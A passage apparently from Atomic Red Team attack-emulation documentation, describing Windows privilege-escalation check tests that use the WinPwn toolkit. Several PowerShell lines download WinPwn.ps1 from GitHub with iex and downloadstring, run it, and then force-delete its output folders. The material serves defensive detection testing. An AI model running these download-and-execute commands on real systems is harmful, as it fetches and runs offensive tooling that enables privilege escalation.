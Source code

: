 
#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
itm4nprivesc -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #16 - WinPwn - Powersploits privesc checks
Powersploits privesc checks using oldchecks function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 345cb8e4-d2de-4011-a580-619cf5a9e2d7






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
oldchecks -noninteractive -consoleoutput
```

#### Cleanup Commands:
```powershell
rm -force -recurse .\DomainRecon -ErrorAction Ignore
rm -force -recurse .\Exploitation -ErrorAction Ignore
rm -force -recurse .\LocalPrivEsc -ErrorAction Ignore
rm -force -recurse .\LocalRecon -ErrorAction Ignore
rm -force -recurse .\Vulnerabilities -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #17 - WinPwn - General privesc checks
General privesc checks using the otherchecks function of WinPwn

**Supported Platforms:** Windows
